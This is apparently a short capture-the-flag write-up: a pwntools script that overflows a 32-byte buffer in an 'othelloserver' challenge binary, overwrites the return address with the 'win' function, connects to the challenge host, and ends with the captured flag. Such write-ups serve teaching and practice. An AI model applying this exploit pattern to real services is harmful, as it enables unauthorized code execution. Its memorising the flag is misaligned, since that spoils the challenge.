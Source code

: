 I use this script for the final remote exploit:
```python
from pwn import *

RECIPE_BUFFER_SIZE = 32
RBP_SIZE = 8
elf = ELF("./othelloserver")
WIN_ADDRESS = elf.symbols['win']

PROMPT = "Othello villains secret server. Do you know the password??"

USE_REMOTE = True
REMOTE_HOST = "othello-villains-b214b7732e27417d.challs.brunnerne.xyz"
REMOTE_PORT = 443

# Connect
if USE_REMOTE:
    io = remote(REMOTE_HOST, REMOTE_PORT, ssl=True)
else:
    io = elf.process()

# Build payload
payload = b"A" * RECIPE_BUFFER_SIZE
payload += b"B" * RBP_SIZE
payload += p64(WIN_ADDRESS)

io.recvuntil(PROMPT.encode())
io.sendline(payload)
io.interactive()
```
`brunner{0th3ll0_is_inf3ri0r_t0_brunn3r}`

___

